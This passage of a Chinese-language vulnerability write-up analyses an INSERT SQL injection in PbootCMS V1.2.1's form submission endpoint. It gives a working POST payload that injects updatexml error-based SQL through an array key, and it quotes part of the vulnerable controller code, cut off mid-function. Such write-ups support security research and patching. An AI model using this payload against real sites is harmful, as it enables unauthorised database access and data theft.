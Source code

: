 根据6.0可以看到带入了进入了 insert 那么我们传的二维数组刚好可以控制key 带入数据库查询引发注入

### 0x01.2 免费通话insert sql注入

注：本地测试的时候，这个地方的注入需要后台添加一条数据才能注！真实环境的话，开放了这个功能直接抓包即可

进入后台

![](images/15892006268989.png)


![](images/15892006301066.png)


![](images/15892006336636.png)


![](images/15892006387865.png)


**0x08.2.1 漏洞演示**

![](images/15892006502544.png)



```bash
url：http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Form/add?fcode=2
post：
  tel[tel`) VALUES ( 1 and updatexml(1,concat(0x3a,user()),1) );-- a] = 1111
```

![](images/15892006620725.png)


**0x08.2.2 漏洞解读**

路径：PbootCMS-V1.2.1\apps\home\controller\FormController.php

方法：add(


```php
// 表单提交
    public function add()
    {
        if ($_POST) {
            
            if (time() - session('lastsub') < 10) {
                alert_back('您提交太频繁了，请稍后再试！');
            }
            
            if (! $fcode = get('fcode', 'var')) {
                alert_back('传递的表单编码有误！');
            }
            
            if ($fcode == 1) {
                alert_back('表单提交地址有误，留言提交请使用留言专用地址!');
            }
            
            // 验证码验证
            /*
             * $checkcode = post('checkcode');
             * if ($this->config('message_check_code')) {
             * if (! $checkcode) {
             * alert_back('验证码不能为空！');
             * }
             * if ($checkcode != session('checkcode')) {
             * alert_back('验证码错误！');
             * }
```